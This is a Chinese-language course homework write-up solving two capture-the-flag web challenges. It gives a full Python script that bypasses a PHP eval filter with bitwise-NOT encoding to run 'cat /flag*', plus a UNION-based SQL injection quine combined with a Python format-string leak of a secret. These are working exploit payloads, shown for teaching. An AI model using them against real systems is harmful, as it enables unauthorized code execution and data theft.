 ###### tags: `程式安全`
# Secure Programming HW5 Writeup
## (#°д°)
### 解法：
首先看一下網站給的php code，我們可以知道如果能通過長度與正規式的檢查就可以用eval跑我們的code
```php=
<?=highlight_file(__FILE__)&&strlen($🐱=$_GET['(#°д°)'])<0x20&&!preg_match('/[a-z0-9`]/i',$🐱)&&@eval($🐱);
```
那爬文一下後找到了xor的方法，只要事先把想執行的指令轉成兩組非英文跟數字的string做xor就好了
可是用這個方法最多只能做到system(ls);就到長度限制了
除了phpinfo()之外，應該一定要用system才會有回顯，所以只能換一種方法

仔細再看一次題目後發現裡面其實有提示
>string type in PHP supports a lot of operators

查了一下operator後找到php有一種~的operator，作用是bitwise not，也就是只要用兩次就會變回來，跟xor有異曲同工之妙，而且payload的長度直接少一半左右

接著使用python寫request的腳本，但是因為python的~是針對int的bitwise not，所以先把cmd跟parameter從bytes轉成int，經過bitwise not後再轉回bytes
之後把cmd跟parameter接起來用括弧包住再加上~，在執行時就會還原了
合起來長這樣：
```
(~cmd)(~parameter);
```
那處理完長度與正規式的檢查就可以來想flag會放在哪了
先試了上課曾經用過的cat /flag*，沒想到就中了XD

下面是我request用的完整腳本：
```python=
import requests
import urllib

test_func = b'system'
test_func_not = ~int.from_bytes(test_func,'big')
len1 = len(test_func)
function = test_func_not.to_bytes(len1,'big',signed=True)
print(function)
test_param = b'cat /flag*'
test_param_not = ~int.from_bytes(test_param,'big')
len2 = len(test_param)
param = test_param_not.to_bytes(len2,'big',signed=True)

#values = {'(#°д°)':b'(~'+function+b')(~' + param + b');'}
#data = urllib.parse.urlencode(values)
#print(data)
#url = 'https://php.splitline.tw/?' + data
#r = requests.get(url)
param = {'(#°д°)': b'(~'+function+b')(~' + param + b');'}
r = requests.get('https://php.splitline.tw',params=param)
print(r.text)
```
## VISUAL BASIC 2077
### 解法：
首先看一下題目給的source code，確定裡面有sql injection漏洞
但是後面的判斷式限定query回傳的username與password要跟輸入的username與password一樣
也就是你使用正常的sql injection語法是行不通的QQ
```python=
query = f"select username, password from users where username='{username}' and password='{password}'"
    cursor.execute(query)
    res = cursor.fetchone()

    if res != None and res['username'] == username and res['password'] == password:
        return ("<h1>Hello, " + username + " ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡ </h1> Here is your flag: {flag} ").format(flag=flag)
```
卡住的時候就要看hintXD
從助教給的第一個hint中得知要去看/hint在幹麻，發現hint這個function會印出它function裡面的內容
查了一下這種東西叫做quine，中文是自產生程式，指的是輸出結果為程式自身原始碼的程式
接著使用下面這個網站的sql injection quine的模板來做修改
https://mineta.tistory.com/56
接下來研究注入的payload，使用union-based的方法在帳號中注入，並把後面的' and password=''註解掉
union要讓欄位數一樣，users有兩個欄位，第一個塞quine，因為我們要在帳號中注入，而第二個放你要輸入的密碼，這樣就可以讓回傳的password也跟輸入的一樣
把quine的部份省略長這樣：
```sql=
' UNION SELECT QUINE AS username, 'dog' -- '
```
加上quine後成功登入的帳號跟密碼如下：
username:
```sql=
' UNION SELECT REPLACE(REPLACE('" UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS username, "dog" -- "',CHAR(34),CHAR(39)),CHAR(36),'" UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS username, "dog" -- "') AS username, 'dog' -- '
```
password: 
dog

登入後卻發現flag沒有出現O_O
![](https://i.imgur.com/AIJcUKO.png)
檢查一下source code裡面回傳了什麼東西，發現它把username跟flag塞進h1 tag中的string回傳
```python=
return ("<h1>Hello, " + username + " ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡ </h1> Here is your flag: {flag} ").format(flag=flag)
```
再看一下flag裡面寫了什麼，看到被當成string的時候is_admin的session要是true才會回傳正確的flag
```python=
class Flag():
    def __init__(self, flag):
        self.flag = flag
    def __str__(self):
        return self.flag if session.get('is_admin', False) else "Oops, You're not admin (・へ・)"
```
原本在想要怎麼改session的is_admin，不過提示裡有講歡迎語句有問題，便開始研究有啥問題
仔細檢查之後想到username的部份是可控的，再查了format string的用法發現{}裡面可以access class的variable，也就是可以直接access flag.flag
而sql註解的後面塞什麼東西都不會影響，所以多塞個{flag.flag}就可以了
加上{flag.flag}的帳號payload如下，密碼一樣還是dog：
```sql=
' UNION SELECT REPLACE(REPLACE('" UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS username, "dog" -- {flag.flag}"',CHAR(34),CHAR(39)),CHAR(36),'" UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS username, "dog" -- {flag.flag}"') AS username, 'dog' -- {flag.flag}'
```
登入後就可以在歡迎語句裡面看到flag了
![](https://i.imgur.com/lBj3yZQ.png)
flag如下：
```
FLAG{qu1n3_sq1_1nj3ct10nnn.__init__}
```
